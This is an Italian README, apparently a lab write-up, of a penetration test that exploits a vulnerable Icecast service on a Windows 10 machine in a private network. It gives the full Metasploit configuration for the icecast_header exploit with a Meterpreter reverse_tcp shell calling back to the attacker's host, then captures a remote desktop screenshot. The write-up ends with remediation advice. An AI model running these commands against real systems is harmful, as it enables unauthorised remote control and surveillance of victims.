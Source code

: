 
# 🔐 **Penetration Test con Metasploit e Icecast su Windows 10**

## 🚀 Introduzione
In questo progetto abbiamo condotto un test di penetrazione su una macchina **Windows 10** con il servizio **Icecast** vulnerabile. Utilizzando il framework **Metasploit** su **Kali Linux**, siamo riusciti a ottenere una sessione **Meterpreter**, visualizzare l’indirizzo IP della vittima e catturare uno screenshot del desktop compromesso.

---

## 🎯 Obiettivi
- 🔍 Identificare la macchina vittima (con Icecast vulnerabile).
- ⚙️ Sfruttare la vulnerabilità per ottenere una shell Meterpreter.
- 📡 Visualizzare l’indirizzo IP della vittima dalla sessione Meterpreter.
- 📸 Catturare uno screenshot del desktop della macchina vittima.

---

## 🌐 Ambiente di Lavoro
- **Attaccante (Kali Linux)**: IP `192.168.1.150`
- **Vittima (Windows 10 con Icecast)**: IP `192.168.1.153`
- **Rete**: 192.168.1.0/24

---

## 📜 Passi Seguiti

### 1️⃣ **Scansione della Rete e Identificazione della Vittima**
Abbiamo innanzitutto identificato la macchina vittima nella rete locale con:
```bash
sudo arp-scan --localnet
```
Una volta trovato l’IP della vittima (`192.168.1.153`), abbiamo verificato la porta di default di Icecast (8000):
```bash
nmap -p 8000 192.168.1.153
```

**📸 Screenshot:**  
_![nmap](./NMap close.png)_

---

### 2️⃣ **Avvio di Icecast sulla Vittima e Verifica**
Sulla macchina Windows 10 abbiamo:
- Avviato **Icecast**.
- Disattivato temporaneamente il firewall o creato una regola di eccezione per la porta 8000.

Quindi, verificando dal browser:
```
http://192.168.1.153:8000
```
Abbiamo ottenuto una risposta, confermando che Icecast era attivo e rispondeva alle richieste.

**📸 Screenshot:**  
_(Inserire screenshot del browser che mostra la risposta di Icecast)_

---

### 3️⃣ **Verifica Porta 8000 Aperta**
Nuovamente con nmap:
```bash
nmap -p 8000 192.168.1.153
```
Ora la porta 8000 risultava **open**, confermando che Icecast era accessibile dalla nostra macchina Kali.

**📸 Screenshot:**  
_(Inserire screenshot della scansione nmap con la porta aperta)_

---

### 4️⃣ **Sfruttamento della Vulnerabilità con Metasploit**
Abbiamo avviato Metasploit:
```bash
msfconsole
```
Configurato l’exploit per Icecast:
```bash
use exploit/windows/http/icecast_header
set RHOSTS 192.168.1.153
set RPORT 8000
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4444
exploit
```

**📸 Screenshot del primo tentativo fallito:**  
_(Inserire screenshot del tentativo fallito)_  

**📸 Screenshot della sessione Meterpreter ottenuta:**  
_(Inserire screenshot della sessione Meterpreter avviata con successo)_  

---

### 5️⃣ **Interazione con la Sessione Meterpreter**
Una volta ottenuta la sessione Meterpreter:
- **Visualizzazione dell’indirizzo IP della vittima**:
  ```bash
  meterpreter > ipconfig
  ```
  Questo comando ha mostrato le interfacce di rete e gli indirizzi IP della macchina vittima.

**📸 Screenshot:**  
_(Inserire screenshot del comando ipconfig eseguito su Meterpreter)_  

- **Cattura di uno screenshot del desktop remoto**:
  ```bash
  meterpreter > screenshot
  ```
  Lo screenshot è stato salvato sulla macchina Kali (ad esempio `/home/kali/OquUbpix.jpeg`).

Per visualizzare l’immagine su Kali:
```bash
xdg-open /home/kali/OquUbpix.jpeg
```

**📸 Screenshot del comando screenshot:**  
_(Inserire screenshot del comando screenshot eseguito con successo)_  

**📸 Visualizzazione dello screenshot:**  
_(Inserire screenshot dell’immagine visualizzata su Kali)_  

---

## 🔒 Post-Exploitation & Considerazioni
Dopo aver raggiunto gli obiettivi, abbiamo:
- Chiuso la sessione Meterpreter:
  ```bash
  meterpreter > exit
  ```
- Riattivato il firewall sulla macchina vittima.
- Proposto di aggiornare Icecast all’ultima versione per correggere la vulnerabilità sfruttata.
- Suggerito di implementare regole IDS/IPS e segmentazione di rete per limitare futuri attacchi.

---

## 📝 Conclusioni
Questo test ha dimostrato come una vulnerabilità in un servizio (Icecast) possa fornire a un attaccante l’accesso remoto a una macchina Windows. Con Metasploit siamo riusciti a:
- Identificare la macchina vulnerabile.
- Avviare un exploit contro Icecast.
- Ottenere una shell Meterpreter.
- Visualizzare l’indirizzo IP della vittima.
- Catturare uno screenshot del desktop remoto.

---

## 📂 Allegati
Nella cartella [`/screenshots`](./screenshots/) sono presenti:
- **nmap_scan.png**: Scansione porta 8000 (chiusa).
- **icecast_browser.png**: Risposta dal browser dopo l’avvio di Icecast.
- **nmap_port_open.png**: Scansione porta 8000 (aperta).
- **exploit_failed.png**: Tentativo fallito di exploit.
- **meterpreter_session.png**: Sessione Meterpreter ottenuta.
- **ipconfig_meterpreter.png**: Output del comando ipconfig.
- **screenshot_command.png**: Comando screenshot.
- **screenshot_view.png**: Visualizzazione dello screenshot catturato.

Tutte le immagini completano visivamente il processo descritto.
